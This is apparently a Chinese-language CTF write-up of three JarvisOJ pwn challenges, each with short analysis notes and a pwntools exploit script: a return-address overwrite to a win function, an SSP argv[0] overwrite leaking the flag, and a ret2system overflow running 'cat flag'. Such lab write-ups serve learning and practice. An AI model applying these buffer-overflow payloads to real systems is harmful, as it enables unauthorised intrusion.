 ### jarvisoj guestbook
首先读取一长串字符串，过长会出现非法访问内存的错误
看到 good game 函数，会打开 flag.txt，所以应该劫持控制流让程序执行 good game 函数
覆盖返回地址为 good game
签到题 orz
payload
```python
from pwn import *

p = remote('pwn.jarvisoj.com',9876)
payload='a'*0x88+p64(0x0000400620)
p.sendline(payload)
p.interactive()
```

### jarvisoj smashes
利用__stack_chk_fail
flag 在 0x000600D21
利用漏洞打印出 flag
flag 上面有个变量，   
_IO_getc
会 overwriteflag 就是会修改原来的 flag
SSP
将`libc_argv[0]`的地址覆盖为 flag 地址
需要知道：
1. 程序运行时 argv[0] 的地址
2. 读取字符串存放的地址
在 main 下断点，查看 argv[0] 地址

使用 search 程序名 查找
在 __IO_gets 后一句下断点，获得输入字符串的地址
覆盖前会映射到别的地方，可以`search`一下
构造好 payload 发过去就行了
```python
from pwn import *
from time import *

p = remote('pwn.jarvisoj.com',9877)
p.recvuntil("name?")
payload = p64(0x400D20)*161
p.sendline(payload)
p.recvuntil('flag:')
p.sendline("1")
p.interactive()
```
**ELF 重映射：当可执行文件足够小时，在不同的区段可能被多次映射。**

推荐链接：
https://veritas501.space/2017/04/28/%E8%AE%BAcanary%E7%9A%84%E5%87%A0%E7%A7%8D%E7%8E%A9%E6%B3%95/
### jarvisoj test your memory
首先分析一下程序 
签到题。.
data 段有个 hint 
`0x80487E0` 为 `cat flag`字符串
返回地址要设置为 main 函数的地址 
payload:
```python
from pwn import *
#p = process("./memory")
p = remote("pwn2.jarvisoj.com",9876)
catflag_addr = 0x80487E0
sys_addr=0x80485BD
payload="a"*(0x13+4)+p32(sys_addr)+p32(0x8048677)+p32(catflag_addr)
p.sendline(payload)
```
